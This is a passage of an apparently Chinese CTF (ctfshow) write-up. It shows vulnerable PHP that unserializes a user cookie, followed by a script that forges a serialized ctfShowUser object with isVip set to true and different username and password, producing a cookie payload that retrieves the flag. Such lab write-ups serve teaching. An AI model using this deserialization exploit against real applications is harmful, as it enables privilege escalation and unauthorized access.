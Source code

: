 ```php
        if($this->isVip){
            global $flag;
            if($this->username!==$this->password){
                    echo "your flag is ".$flag;
              }
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

多加了一个条件 `$this->username!==$this->password` 。

那就把类里的变量改一下：

```
<?php

error_reporting(0);
class ctfShowUser{
    public $username='1';
    public $password='2';
    public $isVip=true;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$user=new ctfShowUser();
echo urlencode(serialize($user));
```
